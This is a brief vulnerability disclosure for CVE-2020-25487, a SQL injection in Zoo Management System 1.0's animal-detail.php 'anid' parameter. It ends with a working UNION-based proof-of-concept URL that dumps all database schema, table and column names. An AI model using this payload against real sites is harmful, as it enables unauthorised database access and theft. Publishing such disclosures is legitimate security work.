 # CVE-2020-25487

#SQL injection Vulnerability in Zoo Management System V 1.0

#Vendor - https://phpgurukul.com

#Product - https://phpgurukul.com/zoo-management-system-using-php-and-mysql/

#Vulnerability Type - SQL injection

#Affected Component - zms/animal-detail.php

#Attack Type- Local

#Impact Code execution - true

#Attack Vectors - Go to client webpage and do sql injection at http://<site>/details.php?anid=
  
#Proof :

http://localhost/zms/animal-detail.php?anid=9%27%20UNION%20ALL%20SELECT%20NULL,NULL,NULL,(select (@a) from(select(@a:=0x00),(select (@a) from(information_schema.columns)wheretable_schema!='information_schema' and(@a)in(@a:=concat(@a,table_schema,' > ',table_name,' >',column_name,'<br>'))))a),NULL,NULL,NULL,NULL--%20-
